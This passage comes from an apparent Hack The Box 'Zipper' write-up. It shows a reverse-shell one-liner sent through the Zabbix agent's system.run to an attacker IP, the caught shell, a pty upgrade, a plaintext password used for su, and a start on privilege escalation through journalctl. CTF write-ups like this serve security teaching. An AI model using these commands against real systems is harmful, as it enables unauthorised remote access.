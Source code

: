 Since we are the Zabbix server we can interact directly with the Zabbix agent on port 10050. And we can also execute commands through the agent using `system.run`!

```
[zabbix_cmd]>>: echo "system.run[(/bin/bash -c 'bash -i >/dev/tcp/10.10.14.30/443 0<&1 2>&1 &')]" | nc 172.17.0.1 10050
```

And catch the shell.

```
root@kali:~/htb# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.108] 50120
bash: cannot set terminal process group (24274): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@zipper:/$
```

Now we import a pty with python, then we can `su` to Zapper.

```
zabbix@zipper:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@zipper:/$ su zapper
su zapper
Password: ZippityDoDah


              Welcome to:
███████╗██╗██████╗ ██████╗ ███████╗██████╗ 
╚══███╔╝██║██╔══██╗██╔══██╗██╔════╝██╔══██╗
  ███╔╝ ██║██████╔╝██████╔╝█████╗  ██████╔╝
 ███╔╝  ██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
███████╗██║██║     ██║     ███████╗██║  ██║
╚══════╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝

[0] Packages Need To Be Updated
[>] Backups:
4.0K	/backups/zapper_backup-2019-02-26.7z
4.0K	/backups/zabbix_scripts_backup-2019-02-26.7z
```

From here we can grab Zapper's ssh key and use that for a more stable shell.


## Escalating to Root


Utilizing `journalctl` we can query the live contents of the systemd journal. After a short period we see the following:

```
zapper@zipper:/$ journalctl -f
-- Logs begin at Sat 2018-09-08 02:45:49 EDT. --
~
~
Sep 10 10:50:26 zipper systemd[1]: Started Purge Backups (Script).
Sep 10 10:50:26 zipper purge-backups.sh[24346]: [>] Backups purged successfully
```
